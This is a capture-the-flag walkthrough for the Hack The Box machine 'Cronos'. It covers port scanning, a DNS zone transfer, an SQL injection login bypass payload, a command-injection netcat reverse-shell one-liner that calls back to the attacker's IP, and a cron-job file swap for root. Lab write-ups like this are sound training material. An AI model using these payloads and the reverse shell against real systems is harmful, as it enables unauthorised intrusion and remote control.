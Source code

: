 ## Cronos

Difficulty: Medium

### User Flag

```
rustscan -a cronos.htb --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://user-images.githubusercontent.com/58514930/218790726-e3358d3f-b7cb-4a73-89ec-3d2c80a260bc.png)

<br>

In cronos.htb we don't find anything interesting, so we can enumerate subdomains.

```
dig axfr @10.10.10.13 cronos.htb
```

![subdomainAdmin](https://user-images.githubusercontent.com/58514930/218790868-fa247149-d64a-4420-9018-20a7caf553d7.png)

<br>

We can bypass the login with **admin ' or ''='** in the username input.

![loginBypass](https://user-images.githubusercontent.com/58514930/218791418-dfd2f086-24f4-479d-93ce-f826c3721b22.png)

<br>

Here we can execute other commands with & and get a user shell.

```
10.10.14.2 & rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 4444 >/tmp/f
```

![getUserShell](https://user-images.githubusercontent.com/58514930/218791763-21268cc9-381b-492c-918e-b31adc25baed.png)

### Root Flag

In /etc/crontab there is a task with user permissions.

![cronjob](https://user-images.githubusercontent.com/58514930/218792146-c26c3a47-1396-45df-b8fe-f62699111fec.png)

Change /var/www/laravel/artisan to php-reverse-shell.php and get a root shell.

![getRoot](https://user-images.githubusercontent.com/58514930/218792331-9a4b1753-b4a3-4c33-904e-2bde7f554f30.png)

